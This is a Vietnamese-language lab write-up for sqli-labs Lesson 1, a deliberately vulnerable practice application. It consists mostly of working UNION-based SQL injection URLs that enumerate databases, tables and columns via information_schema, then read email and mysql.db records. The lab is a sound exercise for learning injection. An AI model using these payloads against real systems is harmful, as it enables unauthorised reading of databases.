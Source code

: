 # Một số việc làm với được lesson-1.md

1. Đăng nhập với giá trị id 

2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson1/screen_1.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson1/screen_2.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson1/screen_3.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson1/screen_4.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson1/screen_5.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson1/screen_6.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson1/screen_8.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson1/screen_9.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson1/screen_10.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1' union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson1/screen_11.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-1/?id=1'  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson1/screen_12.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn.